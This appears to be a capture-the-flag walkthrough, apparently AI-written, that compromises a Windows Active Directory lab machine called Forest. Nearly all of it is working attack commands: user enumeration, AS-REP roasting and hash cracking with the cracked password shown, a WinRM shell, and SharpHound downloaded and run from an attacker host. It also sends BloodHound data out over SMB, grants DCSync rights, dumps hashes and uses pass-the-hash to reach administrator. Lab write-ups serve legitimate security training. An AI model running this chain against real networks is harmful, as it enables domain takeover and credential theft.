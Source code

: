 
# 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)

## 🛰️ Recon

### Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.161
```

### Targeted Script Scan
```bash
nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -oA scans/nmap-tcpscripts 10.10.10.161
```

### UDP Scan
```bash
nmap -sU -p- --min-rate 10000 -oA scans/nmap-alludp 10.10.10.161
```

---

## 🌲 Domain Discovery

### [DNS](DNS) Enumeration
```bash
dig @10.10.10.161 htb.local
dig @10.10.10.161 forest.htb.local
dig axfr @10.10.10.161 htb.local  # failed zone transfer
```

### Enumerating Users via [RPC](RPC.md)
```bash
rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
rpcclient $> querygroupmem 0x200
rpcclient $> queryuser 0x1f4
```

---

## 🧪 AS-REP Roasting

### Prepare User List
```bash
cat > users <<EOF
Administrator
andy
lucinda
mark
santi
sebastien
svc-alfresco
EOF
```

### Identify Vulnerable Users
```bash
for user in $(cat users); do
  GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}
done
```

### Crack the Hash
```bash
hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
# Password: s3rvice
```

---

## 💻 Shell as `svc-alfresco`

### WinRM Access
```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

### Capture User Flag
```powershell
type C:\Users\svc-alfresco\Desktop\user.txt
```

---

## 🩸 BloodHound + SharpHound

### Load SharpHound
```powershell
iex(New-Object Net.WebClient).DownloadString("http://<your_ip>/SharpHound.ps1")
Invoke-BloodHound -CollectionMethod All -Domain htb.local -LdapUser svc-alfresco -LdapPass s3rvice
```

### Exfil via SMB
```powershell
net use \\<your_ip>\share /u:df df
copy 202XXXXX_BloodHound.zip \\<your_ip>\share\
net use /d \\<your_ip>\share
```

---

## 🧭 Path to Domain Admin

### Add User to Exchange Group
```powershell
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco
```

### Assign DCSync Rights
```powershell
$username = "htb\svc-alfresco"
$password = "s3rvice"
$secstr = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secstr

Add-DomainObjectAcl -Credential $cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

---

## 🔓 Dumping Administrator Hash

```bash
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```

---

## ⚙️ SYSTEM Shell

### Using Evil-WinRM
```bash
evil-winrm -i 10.10.10.161 -u administrator -H <NTLM hash>
```

### Or with wmiexec
```bash
wmiexec.py -hashes :<NTLM hash> htb.local/administrator@10.10.10.161
```

### Capture Root Flag
```powershell
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🧠 Beyond Root

- DCSync requires TCP 135, 445, and a high RPC port (like 49667).
- There’s a cleanup scheduled task (`revert.ps1`) that resets `svc-alfresco`’s password and group memberships every 60 seconds.
- You must move quickly between adding to Exchange Windows Permissions and running `Add-DomainObjectAcl`.

---

Let me know if you want this one exported as a markdown file or added to a master write-up! 🛠️🗒️